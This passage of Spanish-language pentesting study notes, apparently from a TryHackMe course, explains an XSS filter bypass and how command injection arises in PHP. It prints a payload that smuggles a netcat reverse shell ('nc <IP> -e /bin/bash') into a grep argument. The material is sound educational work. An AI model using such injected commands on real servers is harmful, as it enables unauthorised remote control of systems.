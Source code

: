 	Así la solución pasa por introducirlo intercalado: "scrscriptipt". Así se elimina el primer término "script" y se incrusta una etiqueta script HTML. 

	<br />
	
- Por último, podemos incrustar un evento que ejecuta javascript cuando se cumplen una serie de condiciones que por otra parte dependen del evento escogido como onmouseover, onload, etc. 

	<div style="text-align:center">
		<img src="{{ 'assets/img/THM/Pasted image 20220816145001.png' | relative_url }}" text-align="center"/>
	</div>

	<br />

#### 2.9. Remote Code Execution. 

**Intro**

Command Injection o Remote Code Execution (RCE) es un tipo de ataque en el que se explota una vulnerabilidad para conseguir la ejecución de comandos en el servidor que hostea la aplicación web. 

Estos comandos se ejecutan mediante el usuario que está ejecutando el servidor web que con frecuencia suele ser www-data. 


<br />

**Discovering Command Injection**

Estas vulnerabilidades existen porque las aplicaciones web tienen funcionalidades que pasan input del usuario sin validar sobre código PHP, Java, Python, etc que realiza "system calls" sobre la máquina servidor, o lo que es lo mismo, llaman a una función que ejecuta comandos del sistema operativo como Exec, Passthru, System.

Por ejemplo, supongámos que existe un parámetro denominado "$title" que recoge input del usuario y se pasa sobre el siguiente código PHP:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220816180837.png' | relative_url }}" text-align="center"/>
</div>

Observemos por tanto que lo que se hace es intercarlar el input del usuario sobre un OS Command, concretamente lo intercala sobre un "grep":

```bash
grep $title /var/www/html/songtitle.txt 
```

De esta forma, si el input del usuario no se validase, se podría cortar el comando e inyectar uno propio malicioso, por ejemplo: 

$title=; nc \<IP> -e /bin/bash; 

```bash
grep; nc <IP> -e /bin/bash; /var/www/html/songtitle.txt 
```

Y como resultado obtendríamos una reverse shell en bash. Observemos que el payload varía en función del comando en el que el input se intercale. En general, si no tenemos acceso al código fuente lo más habitual es probar con los siguientes combinadores de comandos:
